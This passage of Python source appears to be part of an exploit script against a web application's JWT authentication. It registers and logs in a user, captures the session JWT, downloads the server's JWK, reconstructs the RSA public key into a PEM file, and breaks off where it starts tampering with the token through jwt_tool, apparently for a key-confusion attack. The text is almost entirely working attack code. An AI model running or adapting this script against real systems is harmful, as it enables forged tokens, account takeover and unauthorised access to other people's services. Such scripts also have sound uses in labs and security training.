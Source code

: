 ```python
    if response.status_code == 200:
        print(f"[*] Registered user: {username}")
    else:
        print(f"[!] Failed to register user: {response.text}")
    return response.status_code == 200

# Login to get JWT
def login_user(username, password):
    session = requests.Session()
    print(f"[*] Attempting to login user: {username}")
    response = session.post(
        LOGIN_URL, data={"username": username, "password": password})

    if response.status_code == 303:
        response = session.get(BASE_URL)

    token = session.cookies.get("token")
    if token:
        print(f"[*] Retrieved JWT: {token}")
    else:
        print(f"[!] Failed to retrieve JWT")
    return token

# Download the JWK (public key)
def download_jwk():
    print(f"[*] Attempting to download JWK...")
    response = requests.get(JWK_URL)

    if response.status_code == 200:
        print("[*] JWK download successful")
        print(f"[*] JWK Response: {response.json()}")
        return response.json()['keys'][0]
    else:
        print(f"[!] Failed to download JWK: {response.text}")
        return None

# Recreate the RSA public key from JWK components (n and e) and save it to a file
def rsa_public_key_from_jwk(jwk):
    print(f"[*] Recreating RSA Public Key from JWK...")

    n = base64url_decode(jwk['n'].encode('utf-8'))
    e = base64url_decode(jwk['e'].encode('utf-8'))

    n_int = int.from_bytes(n, 'big')
    e_int = int.from_bytes(e, 'big')

    rsa_key = RSA.construct((n_int, e_int))
    public_key_pem = rsa_key.export_key('PEM')

    # Save the public key to a file with a newline at the end
    with open("recovered_public.key", "wb") as f:
        f.write(public_key_pem)
        if not public_key_pem.endswith(b'\n'):
            f.write(b"\n")

    print(
        f"[*] Recreated RSA Public Key saved to 'recovered_public.key':\n{public_key_pem.decode()}")
    return

# Tamper JWT with jwt_tool
def modify_jwt_with_tool(token):
    print(f"[*] Modifying JWT with jwt_tool...")
```